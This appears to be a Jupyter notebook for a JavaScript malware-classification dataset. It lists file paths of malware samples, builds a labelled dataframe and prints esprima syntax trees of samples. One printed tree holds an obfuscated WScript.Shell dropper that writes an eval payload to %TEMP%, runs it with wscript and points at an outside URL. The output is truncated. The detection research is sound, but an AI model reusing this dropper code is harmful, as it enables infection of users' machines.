javascript-malware-collection-master\2016\20160919\20160919_0c89b490d0ce72c8318244df70b5207b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160919\20160919_0c89b490d0ce72c8318244df70b5207b.js


G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_11bf103fc6f39ee11e6eefc6fc4ce3d4.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_11d0eb649f73f9733bace791b08f0542.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_11d0eb649f73f9733bace791b08f0542.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_11e2328686a6a1fce1cbd768dded614d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_11e2328686a6a1fce1cbd768dded614d.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_11e403fd2770187484c0b10a9acbc0b1.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_11e403fd2770187484c0b10a9acbc0b1.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_132f1207fbf4b17639ba5faa9b16fe34

add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_c5d738d6dc1b797cfe3ca7c86fde99bf.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_c5d738d6dc1b797cfe3ca7c86fde99bf.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_c5f2e32c28c7a5cee00c7e5310d9d05f.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_c5f2e32c28c7a5cee00c7e5310d9d05f.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_c60993f547a75d90b7b82b5a9adf87ad.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_c60993f547a75d90b7b82b5a9adf87ad.js
add
----------------------------------
javascript-malware-collection-master\2016\20160920\20160920_c64f1b4acb99bd22d95e81603d698294.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160920\20160920_c64f1b4acb99bd22d95e81603d698294

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160921\20160921_6d7b654a484acab4abb3060ebc68a164.js
add
----------------------------------
javascript-malware-collection-master\2016\20160921\20160921_6d9213179dbb863530a638df47003a46.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160921\20160921_6d9213179dbb863530a638df47003a46.js
add
----------------------------------
javascript-malware-collection-master\2016\20160921\20160921_6db2cb585eb933d83d07b47d979b00ec.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160921\20160921_6db2cb585eb933d83d07b47d979b00ec.js
add
----------------------------------
javascript-malware-collection-master\2016\20160921\20160921_6ed03f6116d83dcb603f8d7a421669a9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160921\20160921_6ed03f6116d83dcb603f8d7a421669a9.js
add
----------------------------------
javascript-malware-collection-master\2016\20160921\20160921_6f40563df6afd13be332d60057d492bb

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_2cc4cd06a82c51db7eed0c7e7a8bad80.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_2d0e2be37dd5874871679f01cc64573d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_2d0e2be37dd5874871679f01cc64573d.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_2d5cc615f2c7dd6cded0b3d81dccce08.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_2d5cc615f2c7dd6cded0b3d81dccce08.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_2d6b0ef7fd261a255b1ebeac3c960c68.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_2d6b0ef7fd261a255b1ebeac3c960c68.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_2def33e17aed61b9aa6d4984a350ef99

----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_de96a1f9e0ce4c98b048962953f34d50.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_de96a1f9e0ce4c98b048962953f34d50.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_ded11f4bdb37000383009206afb0d520.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_ded11f4bdb37000383009206afb0d520.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_df36445930252e8c46bd20830c514569.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_df36445930252e8c46bd20830c514569.js
add
----------------------------------
javascript-malware-collection-master\2016\20160922\20160922_df430c1a348e8420ae23f5ebd57fb044.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160922\20160922_df430c1a348e8420ae23f5ebd57fb044.js


----------------------------------
javascript-malware-collection-master\2016\20160928\20160928_f0fb9abfea93e6945886f23785ab12d7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160928\20160928_f0fb9abfea93e6945886f23785ab12d7.js
add
----------------------------------
javascript-malware-collection-master\2016\20160928\20160928_f5838bb5aabe50237f76337b14b4d5b8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160928\20160928_f5838bb5aabe50237f76337b14b4d5b8.js
add
----------------------------------
javascript-malware-collection-master\2016\20160928\20160928_f6d8ec2d544e261cecd911bf0b65cb8e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160928\20160928_f6d8ec2d544e261cecd911bf0b65cb8e.js
add
----------------------------------
javascript-malware-collection-master\2016\20160928\20160928_fd6a5ef5e1628bfdb4445172d6a2fe71.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20160928\20160928_fd6a5ef5e1628bfdb4445172d6a2fe71.js


javascript-malware-collection-master\2016\20161006\20161006_69d788080ebb3a1803d4cb9f4a4217f7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161006\20161006_69d788080ebb3a1803d4cb9f4a4217f7.js
add
----------------------------------
javascript-malware-collection-master\2016\20161006\20161006_6a0d7003e9bdeaf1f215a469db1a95e6.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161006\20161006_6a0d7003e9bdeaf1f215a469db1a95e6.js
add
----------------------------------
javascript-malware-collection-master\2016\20161006\20161006_6a21a16072cf31b23d830ec977976c94.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161006\20161006_6a21a16072cf31b23d830ec977976c94.js
add
----------------------------------
javascript-malware-collection-master\2016\20161006\20161006_6a6258e189d539a371c95686d147192d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161006\20161006_6a6258e189d539a371c95686d147192d.js
add
-------------------------------

----------------------------------
javascript-malware-collection-master\2016\20161024\20161024_6b20cfde248bbf747e1da92a8df9e51b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161024\20161024_6b20cfde248bbf747e1da92a8df9e51b.js
add
----------------------------------
javascript-malware-collection-master\2016\20161024\20161024_6b42f3e379077ae11a0e2c5d93dba33e.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161024\20161024_6b42f3e379077ae11a0e2c5d93dba33e.js
add
----------------------------------
javascript-malware-collection-master\2016\20161024\20161024_6b8f4062985f4e706ddf1935da65bd90.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161024\20161024_6b8f4062985f4e706ddf1935da65bd90.js
add
----------------------------------
javascript-malware-collection-master\2016\20161024\20161024_6bb377dd1872669075b88744afb59814.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161024\20161024_6bb377dd1872669075b88744afb59814.js


add
----------------------------------
javascript-malware-collection-master\2016\20161102\20161102_e07c53ba02a5a79245c593e128e6bbac.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161102\20161102_e07c53ba02a5a79245c593e128e6bbac.js
add
----------------------------------
javascript-malware-collection-master\2016\20161102\20161102_e28681ec7f4a8a0e27f902700b061542.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161102\20161102_e28681ec7f4a8a0e27f902700b061542.js
add
----------------------------------
javascript-malware-collection-master\2016\20161102\20161102_e65f00680490c0d671aab8e8a2df7735.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161102\20161102_e65f00680490c0d671aab8e8a2df7735.js
add
----------------------------------
javascript-malware-collection-master\2016\20161102\20161102_e6cc0536007b9ebe8b49cf499645beeb.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161102\20161102_e6cc0536007b9ebe8b49cf499645beeb

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161109\20161109_aaad4309d533c40a495402ee58d90eb5.js
add
----------------------------------
javascript-malware-collection-master\2016\20161109\20161109_aca78c3e6c30f550597739e53493fe04.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161109\20161109_aca78c3e6c30f550597739e53493fe04.js
add
----------------------------------
javascript-malware-collection-master\2016\20161109\20161109_acfd027bb7747f74cc81f6251df4dab9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161109\20161109_acfd027bb7747f74cc81f6251df4dab9.js
add
----------------------------------
javascript-malware-collection-master\2016\20161109\20161109_ae403099b87b5faaf25540624d3d6fd7.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161109\20161109_ae403099b87b5faaf25540624d3d6fd7.js
add
----------------------------------
javascript-malware-collection-master\2016\20161109\20161109_ae6428f16db5d37cda3c3b3bf49e2561

add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_6df417263d27f1861586675cb413ef25.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_6df417263d27f1861586675cb413ef25.js
add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_6e9da4acb87a7c51ba4aef0a903557b2.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_6e9da4acb87a7c51ba4aef0a903557b2.js
add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_6eeefb07dfd211859bc48435ad2980d8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_6eeefb07dfd211859bc48435ad2980d8.js
add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_6f0be30d8196f518697e7b3ef9aa32b9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_6f0be30d8196f518697e7b3ef9aa32b9

----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_eea2e32e34f02243d621f66f0a29324d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_eea2e32e34f02243d621f66f0a29324d.js
add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_eea3b69d7c262de0d18583dc3fbf4de1.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_eea3b69d7c262de0d18583dc3fbf4de1.js
add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_eefca6f572840222db61f47da5be544c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_eefca6f572840222db61f47da5be544c.js
add
----------------------------------
javascript-malware-collection-master\2016\20161111\20161111_ef5b477923c31df4d46cf5a1a55092dc.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161111\20161111_ef5b477923c31df4d46cf5a1a55092dc.js


javascript-malware-collection-master\2016\20161122\20161122_3a0b4c8e4bbff375887649ad7df5d239.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161122\20161122_3a0b4c8e4bbff375887649ad7df5d239.js
add
----------------------------------
javascript-malware-collection-master\2016\20161122\20161122_3c6458f6beea2975b399ed0e287996ce.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161122\20161122_3c6458f6beea2975b399ed0e287996ce.js
add
----------------------------------
javascript-malware-collection-master\2016\20161122\20161122_3c719a1d4898ae95d0d8f5f97e839a02.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161122\20161122_3c719a1d4898ae95d0d8f5f97e839a02.js
add
----------------------------------
javascript-malware-collection-master\2016\20161122\20161122_3e4d40098be8b4260d5b80d23973b254.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161122\20161122_3e4d40098be8b4260d5b80d23973b254.js
add
-------------------------------

----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_46c19b42ef6faef44b6e9791f07aeeec.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_46c19b42ef6faef44b6e9791f07aeeec.js
add
----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_4706526ea7e77909d301a357285a4519.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_4706526ea7e77909d301a357285a4519.js
add
----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_470b404804241482168cb7a20ff53158.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_470b404804241482168cb7a20ff53158.js
add
----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_4724aaab00ab4a310a7382186a0b28a4.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_4724aaab00ab4a310a7382186a0b28a4.js


----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_fbac58b40c3e10d3535c65bcbbcbfe94.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_fbac58b40c3e10d3535c65bcbbcbfe94.js
add
----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_fbe14a9baca5c76824db2027918e98c9.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_fbe14a9baca5c76824db2027918e98c9.js
add
----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_fc15786c403000834f9398939fc22b97.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_fc15786c403000834f9398939fc22b97.js
add
----------------------------------
javascript-malware-collection-master\2016\20161123\20161123_fc3c4901dd780bea1f484f6e0d78c547.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161123\20161123_fc3c4901dd780bea1f484f6e0d78c547.js


add
----------------------------------
javascript-malware-collection-master\2016\20161125\20161125_12e0ee78761fd3ca5f4b8e81b187a321.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161125\20161125_12e0ee78761fd3ca5f4b8e81b187a321.js
add
----------------------------------
javascript-malware-collection-master\2016\20161125\20161125_13722693873b23b7196b111ab5c6a9f1.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161125\20161125_13722693873b23b7196b111ab5c6a9f1.js
add
----------------------------------
javascript-malware-collection-master\2016\20161125\20161125_13a7ef3d80e5f7481b29355e57496da1.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161125\20161125_13a7ef3d80e5f7481b29355e57496da1.js
add
----------------------------------
javascript-malware-collection-master\2016\20161125\20161125_13b5a43925d55aa797915f20c960a752.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161125\20161125_13b5a43925d55aa797915f20c960a752

javascript-malware-collection-master\2016\20161128\20161128_1796585a39d29a71f2c91e59d37f9339.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161128\20161128_1796585a39d29a71f2c91e59d37f9339.js
add
----------------------------------
javascript-malware-collection-master\2016\20161128\20161128_1828daa6b734d0bf6b98e2712c4adcb8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161128\20161128_1828daa6b734d0bf6b98e2712c4adcb8.js
add
----------------------------------
javascript-malware-collection-master\2016\20161128\20161128_188411a1a4427d54fb457fafdbb56960.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161128\20161128_188411a1a4427d54fb457fafdbb56960.js
add
----------------------------------
javascript-malware-collection-master\2016\20161128\20161128_1899f4e3bd11cf5509be680383a1519d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161128\20161128_1899f4e3bd11cf5509be680383a1519d.js
add
-------------------------------

G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161129\20161129_85a31291a0be39e9bb16eb739bb377dc.js
add
----------------------------------
javascript-malware-collection-master\2016\20161129\20161129_864c8efdba2dff0c69dfcb3cf0fe6409.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161129\20161129_864c8efdba2dff0c69dfcb3cf0fe6409.js
add
----------------------------------
javascript-malware-collection-master\2016\20161129\20161129_87ef4727877b5480f5e5c229d1fbe280.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161129\20161129_87ef4727877b5480f5e5c229d1fbe280.js
add
----------------------------------
javascript-malware-collection-master\2016\20161129\20161129_880bae0eb7bcdf03b8deef4845ed930a.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161129\20161129_880bae0eb7bcdf03b8deef4845ed930a.js
add
----------------------------------
javascript-malware-collection-master\2016\20161129\20161129_881fcfbb75899987eb6178e853b8aa1c

add
----------------------------------
javascript-malware-collection-master\2016\20161201\20161201_2ae9fa3a470b3fefd63f98fd2a36fed0.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161201\20161201_2ae9fa3a470b3fefd63f98fd2a36fed0.js
add
----------------------------------
javascript-malware-collection-master\2016\20161201\20161201_2b1c0fd5af252e4982e54d1851016dfd.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161201\20161201_2b1c0fd5af252e4982e54d1851016dfd.js
add
----------------------------------
javascript-malware-collection-master\2016\20161201\20161201_2c72bad70ff82df6bc3a704b5a28e77c.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161201\20161201_2c72bad70ff82df6bc3a704b5a28e77c.js
add
----------------------------------
javascript-malware-collection-master\2016\20161201\20161201_2d1ac2162daeb41f3845184ebae6d150.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161201\20161201_2d1ac2162daeb41f3845184ebae6d150

----------------------------------
javascript-malware-collection-master\2016\20161205\20161205_2e0ae7ff7c5dbe3a0cf84918090b1bec.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161205\20161205_2e0ae7ff7c5dbe3a0cf84918090b1bec.js
add
----------------------------------
javascript-malware-collection-master\2016\20161205\20161205_2e6c571558fdba57b85cb4db3b98a3c3.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161205\20161205_2e6c571558fdba57b85cb4db3b98a3c3.js
add
----------------------------------
javascript-malware-collection-master\2016\20161205\20161205_2e8d8f07a75ef1d28ece284e26e4641a.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161205\20161205_2e8d8f07a75ef1d28ece284e26e4641a.js
add
----------------------------------
javascript-malware-collection-master\2016\20161205\20161205_2f127ce95bc2951281e77146524adcc8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161205\20161205_2f127ce95bc2951281e77146524adcc8.js


----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_007768affe9aca6e8c43890e597c87f8.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_007768affe9aca6e8c43890e597c87f8.js
add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_01e8a3e264e937b22804c4412e6bc05b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_01e8a3e264e937b22804c4412e6bc05b.js
add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_028421bcb16667185c7b070f0645fe60.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_028421bcb16667185c7b070f0645fe60.js
add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_029168feb9c205107ecf04dd7283db4a.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_029168feb9c205107ecf04dd7283db4a.js


add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_f0beda130e87157c58b3a72c6ba00afc.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_f0beda130e87157c58b3a72c6ba00afc.js
add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_f10325cdeeec67676f36bb1a03b6abd5.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_f10325cdeeec67676f36bb1a03b6abd5.js
add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_f169b5c7d922845bbafe308b2d8dba30.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_f169b5c7d922845bbafe308b2d8dba30.js
add
----------------------------------
javascript-malware-collection-master\2016\20161206\20161206_f16f78e6bc953dec506c92cdef631fdf.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161206\20161206_f16f78e6bc953dec506c92cdef631fdf

javascript-malware-collection-master\2016\20161208\20161208_046a274742a451f6a76166831086b9cd.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161208\20161208_046a274742a451f6a76166831086b9cd.js
add
----------------------------------
javascript-malware-collection-master\2016\20161208\20161208_04afc0d8739064aeb4999f6c03950b38.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161208\20161208_04afc0d8739064aeb4999f6c03950b38.js
add
----------------------------------
javascript-malware-collection-master\2016\20161208\20161208_04f6ed1ba2ba53bfdb9c2f4039b31027.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161208\20161208_04f6ed1ba2ba53bfdb9c2f4039b31027.js
add
----------------------------------
javascript-malware-collection-master\2016\20161208\20161208_052036e421d186df94fca2eb3a1dad57.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161208\20161208_052036e421d186df94fca2eb3a1dad57.js
add
-------------------------------

----------------------------------
javascript-malware-collection-master\2016\20161209\20161209_19022bdf4715c967260ddbdf83893d54.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161209\20161209_19022bdf4715c967260ddbdf83893d54.js
add
----------------------------------
javascript-malware-collection-master\2016\20161209\20161209_1a22be44ca60e47ea96ba59f8629bc2d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161209\20161209_1a22be44ca60e47ea96ba59f8629bc2d.js
add
----------------------------------
javascript-malware-collection-master\2016\20161209\20161209_1aba016acbf2dbbfdd84be9e787fbb47.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161209\20161209_1aba016acbf2dbbfdd84be9e787fbb47.js
add
----------------------------------
javascript-malware-collection-master\2016\20161209\20161209_1afe0943843fccf843e7e0fb041bdb71.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161209\20161209_1afe0943843fccf843e7e0fb041bdb71.js


javascript-malware-collection-master\2016\20161215\20161215_489897167223416df8668b07e7fa7752.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161215\20161215_489897167223416df8668b07e7fa7752.js
add
----------------------------------
javascript-malware-collection-master\2016\20161215\20161215_49efc065379d18742ec73eeb75c5dbcf.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161215\20161215_49efc065379d18742ec73eeb75c5dbcf.js
add
----------------------------------
javascript-malware-collection-master\2016\20161215\20161215_4b454ba6d2af776eb0493fd2866a2518.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161215\20161215_4b454ba6d2af776eb0493fd2866a2518.js
add
----------------------------------
javascript-malware-collection-master\2016\20161215\20161215_4c3ea2be52005aa76c99d57297043b18.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161215\20161215_4c3ea2be52005aa76c99d57297043b18.js
add
-------------------------------

add
----------------------------------
javascript-malware-collection-master\2016\20161216\20161216_7ebdbf3b631c25f2d84a32c401f340ef.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161216\20161216_7ebdbf3b631c25f2d84a32c401f340ef.js
add
----------------------------------
javascript-malware-collection-master\2016\20161216\20161216_7ee3b5c2573dc3ae565af761b1408b87.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161216\20161216_7ee3b5c2573dc3ae565af761b1408b87.js
add
----------------------------------
javascript-malware-collection-master\2016\20161216\20161216_7fab294c25b9d13de98abc6c54974c7b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161216\20161216_7fab294c25b9d13de98abc6c54974c7b.js
add
----------------------------------
javascript-malware-collection-master\2016\20161216\20161216_81144ddedcb5ed90e4eabb8391d7003d.js
G:\JSContanaDataSet\javascript-malware-collection-master\2016\20161216\20161216_81144ddedcb5ed90e4eabb8391d7003d

----------------------------------
javascript-malware-collection-master\2017\20170506\20170506_31f70631beadb9272ddd0cd71c2e811b.js
G:\JSContanaDataSet\javascript-malware-collection-master\2017\20170506\20170506_31f70631beadb9272ddd0cd71c2e811b.js
add
----------------------------------
javascript-malware-collection-master\2017\20170506\20170506_7cba0aaa710f70180bc1101894c68c83.js
G:\JSContanaDataSet\javascript-malware-collection-master\2017\20170506\20170506_7cba0aaa710f70180bc1101894c68c83.js
add
----------------------------------
javascript-malware-collection-master\2017\20170506\20170506_ecccca5ec2f20a344624f121ede95103.js
G:\JSContanaDataSet\javascript-malware-collection-master\2017\20170506\20170506_ecccca5ec2f20a344624f121ede95103.js
add
----------------------------------
javascript-malware-collection-master\2017\20170507\20170507_0d258992733e8a397617eae0cbb08acc.js
G:\JSContanaDataSet\javascript-malware-collection-master\2017\20170507\20170507_0d258992733e8a397617eae0cbb08acc.js


In [6]:
len(de)

39449

In [8]:
# open file in write mode
with open(r'G:\JSContanaDataSet\programs_testing.txt', 'w') as fp:
    for item in de:
        # write each item on a new line
        fp.write("%s\n" % item)
    print('Done')

Done


In [43]:
import re
script = """text1\ntext2\nhttp://url.com/bla1/blah1/\ntext3\ntext4\nhttp://url.com/bla2/blah2/\ntext5\ntext6"""
def lowering_remove_url_ip_(script):
    script = re.sub(r'\w+:\/{2}[\d\w-]+(\.[\d\w-]+)*(?:(?:\/[^\s/]*))*', '', script)
    script = re.sub(r'((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)', '', script)
#     "^(([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.){3}([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])$"
    script = script.lower()
    return script

In [3]:
def esprima_dataFrame(path="G:\JSContanaDataSet\programs_testing.txt",name="esprima_dataFrame"):
    with open(path, 'r', encoding='utf-8') as file:
        path_scripts = file.readlines()
    scripts = []
    Label = []
    X = []
    y = []
    sub_path = path[:path.rindex("\\")+1]
    for path_script in range(len(path_scripts)-1):
        print("================================")
        try:
            s_p = sub_path+path_scripts[path_script][:-1]
            with open(s_p) as js_file:
                script = js_file.read()
#                 sequence_of_syntax_units(script)
                X.append(path_scripts[path_script][:-1])
                if path_script%2==0:
                    y.append(0)
                else:
                    y.append(0)
        except:
            pass
    df = pd.DataFrame(columns=["ScriptName","Label"])
    df["ScriptName"] = X
    df["Label"] = y
    df.to_csv(sub_path+name+'.csv', index=False)    
    return df

In [4]:
df = esprima_dataFrame()

In [5]:
df.shape

(39425, 2)

In [6]:
df.to_csv('G:/JSContanaDataSet/programs_testing.csv',index=False)

In [15]:
for i in range(39420,39425): 
    with open("G:/JSContanaDataSet/"+df['ScriptName'][i]) as js_file:
        script = js_file.read()
    print(sequence_of_syntax_units(script))
    print("*********************************************************************************************")
    print("*********************************************************************************************")

{ type: "Program", sourceType: "script", body: [ { type: "ExpressionStatement", expression: { type: "CallExpression", callee: { type: "MemberExpression", computed: True, object: { type: "CallExpression", callee: { type: "MemberExpression", computed: True, object: { type: "ThisExpression" }, property: { type: "Literal", value: "eval", raw: "\"\\x65\\166\\x61\\154\"" } }, arguments: [ { type: "Literal", value: "new ActiveXObject(\"WScript.Shell\")", raw: "\"\\x6e\\145w\\x20\\u0041c\\x74\\151\\x76\\x65\\x58O\\x62j\\145\\x63\\164\\u0028\\x22\\u0057\\u0053\\u0063\\162ip\\164\\56\\x53he\\154\\x6c\\u0022\\51\"" } ] }, property: { type: "Literal", value: "Run", raw: "\"\\122\\165\\u006e\"" } }, arguments: [ { type: "Literal", value: "CMD /c echo eval(unescape(WScript.Arguments(0))) > %TEMP%\\76782785.TXT && timeout 3 && wscript /E:JScript %TEMP%\\76782785.TXT \"%28function%28%29%7B%3BCzrYgVZQ%3D%20%2865043%2C%22%5C%5C%22+%22tmp138562.342%22%29%3BxNtO%3D%20%2841318%2C%22ht%22+%22tp%3A//horcor.c

{ type: "Program", sourceType: "script", body: [ { type: "VariableDeclaration", declarations: [ { type: "VariableDeclarator", id: { type: "Identifier", name: "IsZAGeHOwVYgfxLrD" }, init: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", operator: "+", left: { type: "BinaryExpression", o

